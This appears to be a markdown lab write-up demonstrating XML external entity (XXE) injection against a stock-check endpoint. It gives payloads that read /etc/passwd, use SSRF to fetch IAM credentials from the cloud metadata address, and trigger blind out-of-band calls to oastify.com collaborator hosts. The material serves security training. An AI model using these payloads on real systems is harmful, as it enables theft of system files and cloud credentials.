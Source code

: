 ## XXE using external entities to retrieve files
```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
<productId>
</productId><storeId>1</storeId></stockCheck>
```
+ Edit to
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
```
+ Result :
![xml](./img/xml.png)

## Exploiting XXE to perform SSRF attacks
```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
<productId>1</productId>
<storeId>1</storeId>
</stockCheck>
```
+ Edit to
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>
<stockCheck>
<productId>&xxe;</productId>
<storeId>1</storeId>
</stockCheck>
```
+ Result

![sml2](./img/xml2.png)

## Blind XXE with out-of-band interaction
+ Create buup collaborator 
```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
<productId>13</productId>
<storeId>1</storeId>
</stockCheck>
```
+ Edit to
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://v0wkda9pdo2k1tbpgvnyzak8azgq4gs5.oastify.com"> ]>
<stockCheck>
<productId>&xxe;</productId>
<storeId>1</storeId>
</stockCheck>
```

+ Result :
![xml3](./img/xml3.png)
![xml3.1](./img/xml3.1.png)

## Blind XXE with out-of-band interaction via XML parameter entities
``xml 
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
<productId>13</productId>
<storeId>1</storeId>
</stockCheck>
```
+ Edit to 
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE abc [<!ENTITY % xxe SYSTEM "http://ujhjw9sownljksuozu6xi937tyzpngb5.oastify.com"> %xxe; ]>
<stockCheck><productId>1</productId><storeId>1</storeId></stockCheck>
```

+ Result

 ![sml4](./img/xml4.png)

 ![sml4.1](./img/xml4.1.png)

 ## 
 

